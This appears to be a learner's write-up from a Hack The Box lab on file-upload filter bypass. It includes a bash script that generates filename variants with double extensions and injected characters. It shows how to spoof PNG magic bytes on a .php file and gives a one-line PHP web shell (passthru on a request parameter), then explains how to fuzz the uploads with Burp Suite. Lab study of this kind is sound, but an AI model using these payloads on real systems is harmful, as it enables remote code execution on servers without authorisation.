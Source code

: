 ## Helpful Script

```bash 
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.pht' '.phtm' '.phar' '.pgif'; do
        echo "shell.png$ext" >> wordlist1.txt
        echo "shell$ext.png" >> wordlist.txt 

        echo "shell$char$ext.jpg" >> wordlist1.txt
        echo "shell$ext$char.jpg" >> wordlist1.txt
        echo "shell.jpg$char$ext" >> wordlist1.txt
        echo "shell.jpg$ext$char" >> wordlist1.txt
    done
done
```
> You can add more like `.phar` to the second for loop and you can change the valid extension
such as changing it from `.jpg` to `.png`. 

## After Successful Upload of a Valid Image File 
After I uploaded a valid `.png` file of a Google logo, I know that the website for sure 
takes in `.png`. I can leverage this knowledge and extract the first few bytes of the .png 
file I uploaded. To do this, i can use the command: 

```bash
xxd test.png | head
```

The output of this command will look something like: 

```bash 
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 00cc 0000 00c0 0803 0000 007f 3e7c  ..............>|
00000020: bb00 0001 3850 4c54 45ff ffff e941 3534  ....8PLTE....A54
00000030: a853 4285 f4fa bb08 3e83 f49b baf8 2e7c  .SB.....>......|
00000040: f3ee f3fd 6799 f6fa b900 e93f 33fa b500  ....g......?3...
00000050: 30a7 50fa b700 3780 f4e9 3a2d e836 28fe  0.P...7...:-.6(.
00000060: fafa e830 20f2 9893 23a4 48f7 fbf8 fce9  ...0 ...#.H.....
00000070: e8fe f5f5 e724 0ff1 938e e716 00fb c200  .....$..........
00000080: fff9 eefb c12d fffd f9df e9fd 14a1 40fa  .....-........@.
00000090: d7d5 f5b4 b1f7 c1be eb54 4aec 6860 f8ca  .........TJ.h`..
```

You only need to extract the first line and you can do it like: 

```bash 
echo -n -e '\x89\x50\x4e\x47...' > test.php
```

> `\x` introduces a `hexadecimal escape sequence`

Note that if you try `file test.php` it will show it as a `PNG` file. Now you can upload this file to the web application and intercept the request and just create a new line and add a malicious PHP script like: `<?php passthru($_REQUEST['cmd']); ?>`

## Problem: I can't append new content/data to test.php
```bash
total 16
-rw-r--r-- 1 root           root            174 Feb 10 02:13 phpextensions.lst
-rw-r--r-- 1 root           root             61 Feb 10 02:55 test.php
-rw-r--r-- 1 htb-ac-1434522 htb-ac-1434522 3163 Feb 10 01:30 test.png
-rw-r--r-- 1 root           root             13 Feb 10 01:53 test.txt
```

### Solution: 
The command:  
```bash
sudo chown htb-ac-1434522:htb-ac-1434522 test.php
```
### Breakdown:
- `sudo` → Runs the command with **superuser (root) privileges**, required because `test.php` is owned by `root`.
- `chown` → Changes the **owner** of a file.
- `htb-ac-1434522:htb-ac-1434522` →  
  - The first part (`htb-ac-1434522`) sets the **user** (who owns the file).  
  - The second part (`htb-ac-1434522`) sets the **group** (who can access it).  
- `test.php` → The file whose ownership is being changed.

> The command 'whoami' prints out the current user. 'htb-ac-14...' is the result of whoami
hence I use it in the `sudo chown` command sequence to change ownership from root to myself

> The `owner` of a file is the user who has primary control over a file (can read, write, or execute based on permissions)

> The `group` is a set of users. If a file belongs to a group, all users in that group can access it based on the file's group permissions 

### Effect:
After running this command, `test.php` will be owned by **your user**, allowing you to modify it without `sudo`.


## Final Notes
After you use the first bash script and its generated wordlist in burp suite, you can assume that burp suite sent actual requests to the web application, but you don't know which requests, or files, return a runnable script. So you can close out of the intruder tab and go back to the intercepted request from earlier then change the request method to `GET`. And then, you can fuzz for the paths to the different file paths using the same exact wordlist from earlier! 
